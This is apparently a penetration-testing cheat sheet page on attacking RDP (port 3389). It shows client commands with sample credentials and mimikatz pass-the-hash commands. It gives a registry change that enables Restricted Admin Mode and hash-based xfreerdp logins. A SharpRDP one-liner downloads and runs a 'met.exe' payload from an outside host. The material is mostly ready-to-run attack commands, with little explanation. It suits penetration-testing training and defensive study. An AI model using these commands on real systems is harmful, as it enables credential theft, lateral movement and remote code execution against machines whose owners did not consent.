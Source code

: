 # (3389) RDP

### Tools for RDP

<table><thead><tr><th width="163"></th><th width="154">Remmina</th><th>xfreerdp</th><th>rdesktop</th></tr></thead><tbody><tr><td>Command</td><td>remmina</td><td>xfreerdp /u:user /p:password321 /v:10.10.202.204</td><td>rdesktop -u admin -p password123 10.10.202.204</td></tr></tbody></table>

<details>

<summary>Restricted Admin Mode</summary>

* Not enabled by default
* Allows Pass-the-hash RDP login if enabled

Enabled using:

```
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

Then, login using PtH:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

Or using Remmina:

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Or using xfreerdp:

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.122.6 /cert-ignore
```

</details>

<details>

<summary>Headless RDP Connection</summary>

* SharpRDP: RDP without GUI

```
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

</details>

